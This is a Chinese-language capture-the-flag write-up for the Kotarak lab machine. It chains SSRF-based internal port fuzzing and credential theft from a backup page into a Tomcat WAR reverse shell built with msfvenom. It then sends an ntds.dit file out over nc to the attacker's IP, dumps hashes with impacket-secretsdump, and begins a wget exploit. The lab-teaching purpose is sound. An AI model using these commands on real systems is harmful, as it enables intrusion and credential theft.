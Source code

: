 ```yaml
---
title: kotarak（ssrf+上传）
categories:
- training
tags:
- training
---
```

# Kotarak（tomcat web server）

####  **端口扫描**
> 22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
> 8009/tcp open  ajp13  Apache Jserv (Protocol v1.3)
> 8080/tcp open  http    Apache Tomcat 8.5.5
>Service Info: **OS: Linux**; CPE: cpe:/o:linux:linux_kernel

首先访问http://10.10.10.55:8080，显示HTTP Status 404 - /，状态码404 not found。于是枚举目录。
> dirb http://10.10.10.55:8080 

```
+ http://10.10.10.55:8080/docs (CODE:**302**|SIZE:0)

+ http://10.10.10.55:8080/examples (CODE:302|SIZE:0)                         

+ http://10.10.10.55:8080/favicon.ico (CODE:200|SIZE:21630)                   

+ http://10.10.10.55:8080/host-manager (CODE:302|SIZE:0)                     

+ http://10.10.10.55:8080/manager (CODE:302|SIZE:0)
```
发现基本上都是302重定向。

于是访问下 http://10.10.10.55:8080/manager （A地址）

发现302重定向到http://10.10.10.55:8080/manager/ （B地址）

并且，B地址的状态码是404。但是404页面有个提示，tomcat 7重构并且有些urls已经改变。所有使用管理应用的urls现在应该使用如下选项：

> /manager/html for the HTML GUI
> /manager/text for the text interface
> /manager/jmxproxy for the JMX proxy
>  /manager/status for the status pages

既然提示这么贴心了，那我们就按照所说的访问一下。

然后发现，所给的urls都需要**登陆**才能访问。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/2883590-ab8b47382ef604b6.png)

再搜索下 Apache Tomcat 8.5.5。[参考](http://blog.csdn.net/posonrick/article/details/72566875)

tomcat是java web服务器

尝试访问：http://10.10.10.55:8080/index.jsp ，200ok。

# SSRF-服务端请求伪造

没有经验的小白先跟whale学习下。
该漏洞经常出现在服务端，一些web应用程序经常从其他server获取信息。

>客户端 （去B服务器取回图片 !）——》A服务端（执行）————》B服务器（返回图片）————》A服务器（执行完毕）————》客户端（收到图片）

## 攻击方式：
>客户端（去扫描B服务器 ！）——》A服务端（执行）————》B服务器（返回数据包）————》A服务器（执行完毕）————》客户端（收到扫描结果）

服务器没有过滤客户端的请求。本来设计的功能想法是好的，但是攻击者不打算**以设计者的想法**来使用这个功能。

代码不多说，本文只讲讲实践部分，至于更深层次的漏洞原理和代码片段还需要各位自行学习。

再次扫描，全端口扫描

> nmap -p- -sV 目标的ip

作者扫描出了一个开放在60000的端口，类型是未知。但是我扫描的结果是，需要8个多小时。。想了半天才想起来，目标机器是在美国，对于网速实在不能苛求。。（感觉好坑，天朝就没有这种试验靶场吗）

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/2.PNG)

扫描出了以后，用浏览器访问。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/%E6%8D%95%E8%8E%B7.PNG)

```
使用这个私人的web浏览器匿名在网络冲浪，请不要滥用它。
```
- Trying
```
python -m SimpleHTTPServer
ifconfig
在本地开启服务器，查看本地ip。
```
尝试用浏览器上的该功能访问下本地，是否成功。
输入`http://本地ip：8000`
浏览器跳转到一个地址`http://10.10.10.55:60000/url.php?path=http://本地ip:8000`
成功访问客户端本地地址。

- Trying

然后尝试ssrf，提交`file:///etc/passwd`
返回`try harder `
尝试File FIlE  ,同样的返回结果。说明目标机可能用正则表达式限制了file这个字符。

- Trying
尝试`http://localhost:60000`  返60000端口上的正常页面。
因为端口扫描那一步**客户端访问都是302重定向**，需要登陆才能访问，于是我们通过60000端口上的“搜索”功能，绕过对客户端的限制。让服务器替我们获取想要的信息。

# wfuzz
- 这是一个web扫描软件
可以用`wfuzz -h` 查看使用方式
我们使用下列参数，扫描服务器开放的端口
`wfuzz -c -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/3.PNG)
图片中，2 Ch是响应的字符串，访问后发现没有任何有价值的东西，于是我们忽略它。
`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`
扫描后，我们得到了非2 Ch的响应结果。
看到了很多端口信息，因为**客户端nmap扫描是远程访问**，有 防火墙等等，所以在这里会得到更加详细的（在远程扫描不到的）端口信息。
-  trying
一个一个访问这些开放了的端口，`http://10.10.10.55:60000/url.php?path=http://localhost:端口`
在888端口，找到了一个备份页面backup。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/4.PNG)

- Trying

访问备份页面的地址`http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup`
url编码一下`http%3A%2f%2f10.10.10.55%3A60000%2furl.php%3Fpath%3Dhttp%3A%2f%2flocalhost%3A888%2f%3Fdoc%3Dbackup`
得到了可能是tomcat配置文件中的用户名密码。

（有一个小技巧，在端口扫描那一步，得到了不能访问的文件名，可以用ssrf去访问，来获取敏感文件。）


![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/5.PNG)
我们用这个口令登陆端口扫描那一步获得的地址`manager/html`

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/6.PNG)

#### **获取shell**
刚刚通过ssrf获取敏感文件，从而突破防线，接下来，我们要获取一个shell。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/7.PNG)
用msfvenom生成一个payload，接下来要将它上传到目标机上运行。
因为主页面上有上传功能，提示：
```
deploy directory or WAR file located on server.
war file to deploy 
select war file to upload.
```
暗示了我们可以上传一个war类型的反弹shell。
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=kali的ip LPORT=80 -f war > ippsec.war

`War——web归档文件，war文件用于封装web模块。web模块可以代表一个独立的web应用程序。`

- Trying
成功上传——本地nc监听80端口`nc -lnvp 80`——浏览器访问payload地址，即可获得一个shell。

- shell中运行
 `python -c 'import pty;pty.spawn("/bin/bash")'` 于是获得一个bash shell。

#### **提权**
cd backups
ls 发现tomcat-users.xml
cat *.xml 显示权限不够
cd home
find .
cd tomcat/to_archive/pentest_data/
ls
发现两个文件，`.dit`,`.bin` 

![说明这是windows域的文件](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/%E6%8D%95%E8%8E%B7%202.PNG)

file *
说明`.dit`是data类型，`.bin`是微软windows registry文件。

- Trying: nc传文件。
kali中运行：
`nc -lvnp 443 > ntds.dit`
shell中运行：
`nc 攻击机IP 443 < xx.dit`
.dit需要输入全称哈，这里省略了。

- Trying: 提取.bin文件
impacket-secretsdump -h
`impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL`
得到了Target system bootKey，关于域渗透知识，还欠缺。
得到了一系列用户名和密码的hash值。

- Trying: tomcat的反弹shell中，运行
arp -a 查看局域网机器
获得`10.10.10.2` `10.0.3.133`两个机器的IP

- Trying: 对这两台机器进行扫描
运行nmap， 显示try harder!
用nc进行端口扫描，
```
nc 10.0.3.133 445				连接拒绝
nc -v 10.0.3.133 22			成功连接
```
并且显示ssh版本为，openssh，操作系统为ubuntu。

- Trying: 在线对hash进行解密
先删除明显是windows机器的hash，浏览器搜索hashkiller，对剩下的hash解密。
`awk -F: '{print $4}' hashes`

- Trying: 尝试ssh登陆
ssh atanas@10.10.10.55 
尝试了一个遍，失败

- Trying: tomcat的反弹shell中，尝试切换用户
su - atanas
使用解密出来的一个密码，成功切换到该用户
cd root
cat app.log

- Trying: 利用wget命令执行漏洞
searchsploit wget
searchsploit -m exploits/linux/remote/40064.txt






